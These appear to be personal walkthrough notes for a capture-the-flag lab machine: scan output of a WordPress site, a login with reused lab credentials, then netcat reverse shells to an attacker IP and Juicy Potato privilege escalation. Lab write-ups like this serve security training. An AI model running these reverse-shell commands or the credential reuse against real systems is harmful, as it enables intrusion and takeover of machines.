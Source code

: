 Starting Point Tutorial Name: Vaccine
	Target IP: 10.10.10.29
	Attacker IP: 10.10.14.195
	Initial nmap scan discovered ports 80/3306 open
	!---Port 80
		Showed IIS Test page
		Ran dirb scan on webserver, found pages:
			http://10.10.10.29/wordpress/
			---- Entering directory: http://10.10.10.29/wordpress/ ----
			+ http://10.10.10.29/wordpress/index.php (CODE:301|SIZE:0) 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/
			+ http://10.10.10.29/wordpress/xmlrpc.php (CODE:405|SIZE:42) 

			---- Entering directory: http://10.10.10.29/wordpress/wp-admin/ ----
			+ http://10.10.10.29/wordpress/wp-admin/admin.php (CODE:302|SIZE:0) 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/css/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/images/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/Images/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/includes/ 
			+ http://10.10.10.29/wordpress/wp-admin/index.php (CODE:302|SIZE:0) 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/js/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/maint/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/network/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/user/ 

			---- Entering directory: http://10.10.10.29/wordpress/wp-content/ ----
			+ http://10.10.10.29/wordpress/wp-content/index.php (CODE:200|SIZE:0) 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/plugins/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/themes/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/Themes/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/upgrade/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/uploads/ 

			---- Entering directory: http://10.10.10.29/wordpress/wp-includes/ ----
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/blocks/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/certificates/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/css/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/customize/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/fonts/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/images/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/Images/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/js/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/requests/ 
			==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/text/ 
			--> Testing: http://10.10.10.29/wordpress/wp-includes/thanks 
		Accessed http://10.10.10.29/wordpress/wp-admin, logged in using creds from 10.10.10.46 postgres account (postgres/P@s5w0rd!)
			Used msfconsole to create reverse shell to website
			Uploaded nc.exe to create a session easier to work with (not sure why though)
			Executed nc.exe from meterpreter
				execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"
			Uploaded Juicy Potato from meterpreter
			Opened second nc.exe on port 1111
			echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.195 1111 > hc_shell.bat